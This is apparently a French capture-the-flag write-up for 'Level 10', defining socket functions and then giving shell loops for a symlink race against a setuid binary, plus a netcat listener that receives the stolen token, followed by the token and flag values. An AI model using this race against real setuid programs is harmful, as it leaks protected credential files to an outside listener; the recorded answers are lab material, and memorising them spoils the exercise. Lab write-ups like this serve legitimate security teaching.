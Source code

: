 # Level 10

## Recherche
---
socket : Socket programming is a way of connecting two nodes on a network to communicate with each other. One socket(node) listens on a particular port at an IP, while the other socket reaches out to the other to form a connection. The server forms the listener socket while the client reaches out to the server.

fflush : fflush() is typically used for output stream only. Its purpose is to clear (or flush) the output buffer and move the buffered data to console (in case of stdout) or disk (in case of file output stream). Below is its syntax.

exit : exit() terminates the calling process without executing the rest code which is after the exit() function. 

htons : The htons function converts a u_short from host to TCP/IP network byte order (which is big-endian).

connect : The connect() function establishes the connection of a socket between a client and a server.

puts : used to write a line or string to the output( stdout ) stream. It prints the passed string with a newline and returns an integer value. The return value depends on the success of the writing procedure.

dans un terminal avec ssh ouvert sur la vm creer ce script dolink
il va supprimer si ca existe et recreer un lien symbolique entre token et tmpflag10

while true; do rm -rf /tmp/flag10; touch /tmp/flag10; rm -rf /tmp/flag10; ln -s ~/token /tmp/flag10; done

dans un autre terminal avec ssh ouvert sur la vm creer ce script uselink
il va forcer la connexion pour qu'il y en ait une qui passe entre le moment ou ca check le fichier et le moment ou ca check la connexion

while true; do ~/level10 /tmp/flag10 192.168.56.(101); done

la ligne qui suit, a effectuer dans 1 3eme terminal, permet de lire la sortie d'avant, et donc recuperer le flag, pour avoir le getflag
nc -kl 6969

code : woupa2yuojeeaaed06riuj63c

---
## Flag : feulo4b72j7edeahuete3no7c
---
## Sitographie

